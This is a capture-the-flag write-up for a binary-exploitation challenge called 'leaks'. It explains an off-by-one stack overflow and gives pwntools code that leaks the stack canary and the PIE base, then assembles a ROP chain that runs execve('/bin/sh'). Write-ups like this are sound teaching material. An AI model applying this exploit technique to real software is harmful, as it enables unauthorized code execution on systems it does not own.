 # Goodbye Mr. Anderson 'leaks' Writeup

This challenge distributes a binary called 'leaks' that reads input 4 times, once into a buffer in the BSS called 'name', and 3 more times into a buffer on the stack with a size of 24 bytes, which are echoed back.

```c
char name[16];

...

int main() {
    setvbuf(stdout, 0, 2, 0);
    setvbuf(stderr, 0, 2, 0);

    char buffer[24];

    printf("You hear that, Mr. Anderson? That's the sound of inevitability, that's the sound of your death, goodbye, Mr. Anderson.\n");

    leak_stack_canary(name, 16);

    leak_stack_canary(buffer, 64);
    printf("%s\n", buffer);
    leak_stack_canary(buffer, 64);
    printf("%s\n", buffer);
    leak_stack_canary(buffer, 128);
    printf("%s\n", buffer);
}
```

If we take the hint from the function name, we know that we will likely need to be leaking the stack canary in this challenge. Let's start by running `checksec` on the distributed binary to determine the protections.

```
━━┫  checksec leaks
[*] '/home/leaks/leaks'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

This binary has full protections, which means that we will in fact need to leak the stack canary, and we will also need to leak either the address of libc or the code segment, since PIE (position independent execution) is enabled.

The `leak_stack_canary` function is as follows:

```c
char * leak_stack_canary(char * buffer, int maxlen) {
    int length;

    scanf("%d", &length);
    if (length > maxlen) {
        exit(13);
    }

    fgetc(stdin);

    for (int i = 0; i <= length; i++) {
         buffer[i] = fgetc(stdin);
    }

    return buffer;
}
```

This simply reads a chosen number of bytes, as long as it is less than the max length. This means that we have a buffer overflow each of the 3 times that over 24 bytes are read.

We can test this by sending a large number of 'A's in gdb and expecting a crash at the end of main, which does in fact happen. That crash, however, is not a segmentation fault, it is a stack canary error.

We need to know the value of the stack canary to overwrite the existing one with it. Since the stack canary comes right after our input, if we can prevent a null byte from being placed at the end of our input, we can read the bytes following it.

```python
p.sendline(b'8')
p.sendline(b'AAAAAAAA') # 'name'

p.sendline(b'24')
p.send(b'A' * 24 + b'\n') # 'buffer'
p.recvline()
p.recvline()

stack_canary = u64(b'\x00' + p.recvline()[:7])
print(hex(stack_canary))
```

A couple things to note about the above stack canary leak.
 1) The newline sent is included, since a `<=` is used in the for loop
 2) Stack canaries start with a `\x00` (null) byte to help prevent leaks. We clobber that byte with the newline, so we need to reinsert it when we leak the canary.

Now that we have the stack canary, we can cause a segmentation fault and jump to wherever we want!

But we're not done. For one, PIE is enabled, so we don't know any addresses to jump to.

However, as it turns out, we can use the same approach that we used to leak the stack canary to leak the return address. And we should be able to calculate any address in the binary from the return address.

```python
binary = ELF('./leaks')
...

p.sendline(b'8')
p.send(b'A' * 8 + b'\x0a')
p.recvline()
return_addr = u64((b'\x00' + p.recvline()[0:5]).ljust(8, b'\x00'))
base = return_addr - binary.symbols['_start']
print(hex(base))
```

This requires a shorter buffer, and technically isn't leaking the return address. It is leaking the address of `_start`, which was left over by some previously executed function in libc. Since it requires a shorter buffer, it will happen before the stack canary leak.

Now that we have the address of the code section, we can build a ropchain. There is no `call system` gadget directly provided, but we could leak the address of another function in libc (such as printf), and calculate the address of system from that. Another alternative would be to use the provided `syscall` gadget.

```c
void yay() {
    asm("pop %rax");
    asm("syscall");
    return;
}
```

If we call `SYS_execve` by setting `rax` to 59, and correctly setting other arguments, we should be able to execute `/bin/sh`. If we look at the table [here](https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md), we can see the arguments expected.

Arguments: `rax` should be 59, `rdi` sohuld be a pointer to `"/bin/sh\x00"`, and `rsi` should be `NULL` or `0`.

There is no simple `pop rsi; ret` gadget, but the gadget `pop rsi; pop r15; ret` exists, which is good enough for us.

The last problem that we have before we can fully assemble the ropchain is that we don't have the address to `"/bin/sh\x00"` anywhere. We do have the address of one of our inputs however. Since `name` is in the BSS, we can calculate its address from the return address leak. If we set `"/bin/sh\x00"` as our name, we can use that address in our ropchain.

At this point, all that is left is assembling the ropchain:
```python
name_addr = base + binary.symbols['name']
rop = ROP(binary)
pop_rsi_pop_r15 = rop.find_gadget(['pop rsi', 'pop r15', 'ret']).address + base
pop_rdi = rop.find_gadget(['pop rdi', 'ret']).address + base
pop_rax_syscall = rop.find_gadget(['pop rax', 'syscall']).address + base

ropchain = b''
# clear rsi
ropchain += p64(pop_rsi_pop_r15)  # pop rsi; pop r15, ret
ropchain += p64(0)  # rsi
ropchain += p64(0)  # r15

# set rdi addr("/bin/sh")
ropchain += p64(pop_rdi)  # pop rdi; ret
ropchain += p64(name_addr)  # rdi

# syscall
ropchain += p64(pop_rax_syscall)  # pop rax; syscall
ropchain += p64(59)  # rax (sys_execve)
```

The full solve is available in `solve.py`.
